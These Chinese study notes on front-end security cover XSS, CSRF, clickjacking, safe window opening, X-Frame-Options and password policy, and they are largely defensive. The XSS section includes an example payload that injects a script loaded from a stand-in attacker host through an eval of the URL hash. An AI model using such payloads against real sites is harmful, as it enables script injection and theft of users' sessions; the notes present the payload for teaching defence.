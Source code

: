 # JS 高安全性

- <https://juejin.im/post/5912740344d904007b010252>
- 乌云网 - 国内著名的漏洞报告平台
- 渗透师导航 <http://www.shentoushi.top/>
- 黑客攻击网站的主要手段有

  - SQL注入
  - 网络钓鱼
  - 跨站攻击
  - 拒绝服务攻击

- 打开链接都有坑 <https://juejin.im/entry/59f97d3851882558513203d9>

  - 如果是a标签要在新窗口中打开，添加noopener属性
  - 如果是js中打开新窗口，手动将新窗口的opener置为null

```javascript
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}

<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>
```

- 攻击网站前端的方法

  - XSS 跨站点脚本攻击

    - Web -XSS <https://www.imooc.com/video/14367>
    - 同源策略没有限制页面中加载第三方的脚本
    - 尽一切方法在目标网站上执行非目标网站上原有的脚本

```javascript
<script>
    eval(location.hash.substr(1));
</script>

http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
```

- CSRF 跨站点请求伪造 请求来源于其他网站

```shell
http:www.a.com/del?id=21
```

- 界面操作劫持

  - 点击劫持
  - 拖放劫持
  - eg. 可见输入框内覆盖一个不可见的框

```javascript
filter: alpha(opacity=0);
opacity: 0;
z-index: 100
```

- 不要轻易相信任何外部传入的数据

  - 不要轻易信任用户输入的数据 -> 数据过滤

    - Jq中$('').text() 而非 html()
    - 使用$('').attr() css()
    - URL -> encodeURL
    - jqencoder
    - setTimeout setInterval eval 这些函数都有安全隐患

  - 不要轻易信任任何传入的第三方数据

    - JSONP 一定要检查从第三方返回的数据格式

  - 不要仅靠JS来阻止注入

- 其他前端安全防范实践

  - cookie 设置为httpOnly

    - XSS不能通过JS获取Cookie
    - h5的localStorage
    - SSL 启用cookie的Secure设置

  - 防止网页被其他网站内嵌为iframe

    - JS阻止

```javascript
<style id="antiClickjack">body{display:none !important; }<style>

<script>
if(self === top) {
    var antiClickjack = document.getElementById('antiClickjack');
    antiClickjack.parentNode.removeChild(antiClickjack);
} else {
    top.location = self.location;
}
</script>
// 首先设置不可见
// 如果没有被内嵌移除不可见样式
// 否则把顶层页面的地址设置成内嵌页面的地址
```

- X-Frame-Options响应头

  - DENY
  - SAMEORIGIN
  - ALLOWFROM URI ?? 允许特定域

# 状态码

```javascript
200    请求资源成功
201    同步处理资源的新建或修改成功，返回包含新资源地址的 Location 头
202    资源的新建或修改进入异步
204    不返回响应主体的成功请求的响应，例如，资源删除成功
206    返回了部分资源
400    请求格式、参数缺失或者错误
401    没有权限
403    访问被禁止
404    资源不存在
405    所请求的 HTTP 方法不允许当前认证用户访问
406    请求的数据格式不存在
410    资源被永久删除
415    请求的媒体类型错误
422    请求理解成功，但是参数验证错误
429    请求频率超限
500    服务器内部错误
```

# 前端安全

- 彩虹表撞 <http://md5.gongjuji.net/dencrypt/>
- javascrypt <http://www.fourmilab.ch/javascrypt/>
- 乌云网

- 常见攻击

```javascript
// 富客户端

// 攻击类型 跨站点攻击 Cookie劫持 伪造恶意代码

因此需要做必要的安全校验和编码
```

- 防御

```javascript
Web应用程序安全与风险/核心防御机制/Web应用程序技术/解析应用程序
避开客户端控件/攻击验证机制/攻击会话管理/攻击访问控制/攻击数据存储区
测试后端组件

攻击应用程序逻辑/攻击其他用户/其他技巧/定制攻击自动化/利用信息泄露/攻击本地编译型应用程序
攻击应用程序架构
攻击Web服务器

查找源代码中的漏洞
Web应用程序黑客工具包
Web应用程序渗透测试方法
```

# 关于强弱密码

- <https://juejin.im/entry/59916f5e518825486b16f0b6>

- 频繁的更改密码没有预想的效果，达不到保护密码安全的目的

```javascript
当年NIST主管Bill Burr撰写了一份名为NIST Special Publication 800-63的文档，
建议大家设置密码时混合大写字母、字符和数字，并定期修改。
这么成（keng）熟（die）的建议后来被各大媒体广为传播，一时传为美谈。

研究显示此类标准，并没有什么卵用……
```

> 前端所有的防御手段都只能防君子

# 程序世界里的不信任原则

- <https://juejin.im/post/59bf6d0b6fb9a00a4a4cb51d>

  - 灰度发布
  - 柔性放过(结果超时则跳过该逻辑，进行下一步)
  - 打击如IP、号码等信息聚集，频率过快等机器行为，请求重放、劫持等请求

# 书单

```javascript
黑客攻防技术宝典：Web实战篇
```
